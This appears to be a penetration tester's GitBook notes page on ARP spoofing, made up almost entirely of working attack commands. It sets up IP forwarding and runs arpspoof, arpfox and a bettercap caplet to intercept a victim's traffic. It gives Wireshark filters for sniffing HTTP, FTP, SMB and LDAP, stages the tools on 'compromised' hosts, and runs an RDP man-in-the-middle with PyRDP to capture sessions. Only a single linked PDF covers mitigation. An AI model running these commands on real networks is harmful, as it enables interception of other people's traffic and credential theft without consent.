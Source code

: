 ```yaml
---
description: Address Resolution Protocol
---
```


# ARP Spoofing

- [https://idafchev.github.io/pentest/2019/10/28/combining_arp_poisoning_and_ip_spoofing_to_bypass_firewalls.html](https://idafchev.github.io/pentest/2019/10/28/combining_arp_poisoning_and_ip_spoofing_to_bypass_firewalls.html)
- [https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/arp-poisoning](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/arp-poisoning)

Enable IP forwarding:

```
$ sudo sysctl -w net.ipv4.ip_forward=1
(sudo sh -c 'echo 1 > /proc/sys/net/ipv4/ip_forward')
(edit /etc/sysctl.conf "net.ipv4.ip_forward = 1" to make it permanent)
```




## arpspoof (dsniff)

* [https://github.com/tecknicaltom/dsniff](https://github.com/tecknicaltom/dsniff)
* [https://github.com/GregHoff/dsniff](https://github.com/GregHoff/dsniff)

Install:

```
$ sudo apt install dsniff -y
```

Fire up the attack with Wireshark (filter `ip.src == VICTIM_10.0.0.5`) running:

```
$ sudo arpspoof [-i eth0] [-c both] -t VICTIM_10.0.0.5 GATEWAY_10.0.0.1 [-r]
```

![arpspoof Output Disassembled](/.gitbook/assets/009.png)

{% hint style="hint" %}
Wireshark filter while ARP spoofing:

```
(http || ftp || smb || smb2 || ldap) && ip.src == VICTIM_10.0.0.5
```
{% endhint %}

For Windows: [alandau/arpspoof](https://github.com/alandau/arpspoof/releases/download/v0.2/arpspoof.exe)



### Portable

* [https://github.com/byt3bl33d3r/arpspoof](https://github.com/byt3bl33d3r/arpspoof)
* [https://github.com/malfunkt/arpfox](https://github.com/malfunkt/arpfox)

As a portable alternative one may use the Python port of arpspoof compiled with PyInstaller:

```
$ sudo apt install virtualenv
$ pip install pyinstaller=3.5
$ git clone https://github.com/byt3bl33d3r/arpspoof
$ cd arpspoof
$ virtualenv -p `which python2` venv
$ . venv/bin/activate
$ pip install -r requirements.txt
$ pyinstaller --onefile --paths venv/lib/python2.7/site-packages arpspoof/arpspoof.py
$ file dist/arpspoof
```

Another approach is to download Python dependencies locally and install them on a compromised Linux host:

```
Dev$ pip download --no-binary=:all: -r requirements.txt
Compromised$ python -m pip install --no-index --find-links . -r requirements.txt
```

If you need to launch ARP spoofing on another distro (CentOS, for example), then installing OS dependencies and using a portable binary may be easier:

```
Dev$ mkdir /tmp/tcpdump && yum install --downloadonly --downloaddir=/tmp/tcpdump tcpdump
Dev$ ls /tmp/tcpdump
libpcap-1.5.3-12.el7.x86_64.rpm  tcpdump-4.9.2-4.el7_7.1.x86_64.rpm

Compromised$ rpm -i libpcap*.rpm tcpdump*.rpm
Compromised$ tcpdump -nvv -i eth0 -s 65535 -w arpfox.pcap "src host VICTIM_10.0.0.5"
Compromised$ ./arpfox -l
Compromised$ ./arpfox -i eth0 -t VICTIM_10.0.0.5 GATEWAY_10.0.0.1
```




## bettercap

* [https://github.com/bettercap/bettercap](https://github.com/bettercap/bettercap)
* [https://www.bettercap.org/modules/](https://www.bettercap.org/modules/)
* [https://linuxhint.com/install-bettercap-on-ubuntu-18-04-and-use-the-events-stream/](https://linuxhint.com/install-bettercap-on-ubuntu-18-04-and-use-the-events-stream/)
* [https://hackernoon.com/man-in-the-middle-attack-using-bettercap-framework-hd783wzy](https://hackernoon.com/man-in-the-middle-attack-using-bettercap-framework-hd783wzy)
* [https://www.cyberpunk.rs/bettercap-usage-examples-overview-custom-setup-caplets](https://www.cyberpunk.rs/bettercap-usage-examples-overview-custom-setup-caplets)

Deb dependencies (Ubuntu 18.04 LTS):

* [libpcap0.8_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap0.8_1.8.1-6ubuntu1_amd64.deb.html)
* [libpcap0.8-dev_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap0.8-dev_1.8.1-6ubuntu1_amd64.deb.html)
* [libpcap-dev_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap-dev_1.8.1-6ubuntu1_amd64.deb.html)
* [pkg-config_0.29.1-0ubuntu2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/pkg-config_0.29.1-0ubuntu2_amd64.deb.html)
* [libnetfilter-queue1_1.0.2-2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-universe-amd64/libnetfilter-queue1_1.0.2-2_amd64.deb.html)
* [libnfnetlink-dev_1.0.1-3_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libnfnetlink-dev_1.0.1-3_amd64.deb.html)
* [libnetfilter-queue-dev_1.0.2-2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-universe-amd64/libnetfilter-queue-dev_1.0.2-2_amd64.deb.html)

Attack:

```
$ sudo ./bettercap --iface eth0 --caplet arpspoof.cap
```

{% code title="arpspoof.cap" %}
```bash
# Quick recon of the network
net.probe on

# Set the ARP spoofing
set arp.spoof.targets $CLIENT_IP
set arp.spoof.internal false
set arp.spoof.fullduplex false

# Control logging and verbosity
events.ignore endpoint
events.ignore net.sniff

# Start the modules
arp.spoof on
net.sniff on
```
{% endcode %}



### PyRDP

- [https://github.com/GoSecure/pyrdp](https://github.com/GoSecure/pyrdp)
- [https://github.com/GoSecure/pyrdp/blob/master/docs/bettercap-rdp-mitm.md](https://github.com/GoSecure/pyrdp/blob/master/docs/bettercap-rdp-mitm.md)
- [https://github.com/GoSecure/caplets/blob/master/rdp-proxy/rdp-sniffer.cap](https://github.com/GoSecure/caplets/blob/master/rdp-proxy/rdp-sniffer.cap)

Install PyRDP:

```
$ sudo apt update
$ sudo apt install python3 python3-pip python3-dev python3-setuptools python3-venv build-essential python3-dev git openssl libgl1-mesa-glx libnotify-bin libxkbcommon-x11-0 libxcb-xinerama0 libavformat-dev libavcodec-dev libavdevice-dev libavutil-dev libswscale-dev libswresample-dev libavfilter-dev -y
$ git clone https://github.com/gosecure/pyrdp ~/tools/pyrdp && cd ~/tools/pyrdp
$ python3 -m venv venv && source venv/bin/activate
$ pip install -U pip setuptools wheel
$ pip install -U -e '.[full]'
```

Compile bettercap [from fork](https://github.com/GoSecure/bettercap):

```
$ sudo apt install build-essential libpcap-dev libusb-1.0-0-dev libnetfilter-queue-dev -y
$ mkdir -p $GOPATH/src/github.com/bettercap && cd $GOPATH/src/github.com/bettercap
$ git clone https://github.com/GoSecure/bettercap -b rdp-mitm --single-branch && cd bettercap
$ go mod init && go mod tidy && go get && go mod vendor && go build
```

Run the attack hoping that the RDP client `192.168.1.3` will connect to the RDP server `192.168.1.2` with NLA disabled:

```
$ curl -sSL https://github.com/GoSecure/caplets/raw/master/rdp-proxy/rdp-sniffer.cap -o rdp-sniffer.cap
$ pyrdp-player.py -p 3000
$ sudo ./bettercap -iface eth0 -caplet rdp-sniffer.cap -eval "set arp.spoof.targets 192.168.1.2, 192.168.1.3; set rdp.proxy.targets 192.168.1.2; set rdp.proxy.player.ip 127.0.0.1; set rdp.proxy.replay true; set rdp.proxy.command `which pyrdp-mitm.py`"
$ sudo arpspoof -i eth0 -t 192.168.1.3 192.168.1.2 -r
```




## Mitigations

Mitigating ARP spoofing:

{% file src="/.gitbook/assets/Ruijie Anti-ARP Spoofing Technical White Paper.pdf" %}
